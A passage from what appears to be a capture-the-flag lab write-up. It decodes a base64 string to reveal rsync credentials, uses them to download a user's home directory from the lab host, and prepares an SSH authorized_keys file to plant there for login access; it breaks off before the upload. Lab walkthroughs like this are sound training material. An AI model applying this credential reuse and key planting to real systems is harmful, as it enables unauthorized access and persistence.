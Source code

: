 ```
echo 'QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==' | base64 -d
```

![image](https://user-images.githubusercontent.com/76821053/131159202-f4d676ad-a35e-4bc6-b2ec-588986d63f84.png)

We have found credentials for rsync service. 

Heading to rysnc service, first with we can try to list any directories available:

```
rsync -av --list-only rsync://vulnet.thm:873 
```

![image](https://user-images.githubusercontent.com/76821053/131159301-bcbae256-e28d-4ffc-b96a-014c21232a6e.png)

Making use of those credentials we can download the contents and analyze it:

```
rsync -av rsync://rsync-connect@10.10.30.242:873/files/ ./files
```

I saved it to /files and i found out that this was the home directory of sys-internal:

![image](https://user-images.githubusercontent.com/76821053/131159440-b3c8a462-70f1-49dd-8e76-a9fc714b5d65.png)

Here is the user.txt file:

![image](https://user-images.githubusercontent.com/76821053/131159588-3089110f-2e68-4e2c-a4c3-cad293584274.png)

We have read and write privileges with rsync to “sys-internal" home directory. We can create an ssh key and upload it to the target system:

```
ssh-keygen -f sys-internal
```

![image](https://user-images.githubusercontent.com/76821053/131159684-4ba8a83c-8e27-43d7-9b30-b1f7986c22f6.png)

First we have to create a file called authorized_keys and store the id_rsa.pub key inside and give it proper permissions.

In my case the id_rsa.pub is called sys-internal.pub:

```
touch authorized_keys

cat sys-internal.pub > authorized_keys

chmod 700 authorized_keys
```

![image](https://user-images.githubusercontent.com/76821053/131159947-4928e783-3ffa-45a6-b3f2-db22eb191ad9.png)

![image](https://user-images.githubusercontent.com/76821053/131159955-22a75230-3300-4c28-afb3-3d3410b7f2a8.png)

Let's go back to rsync and upload the authorized_keys file to .ssh directory of “sys-internal”:
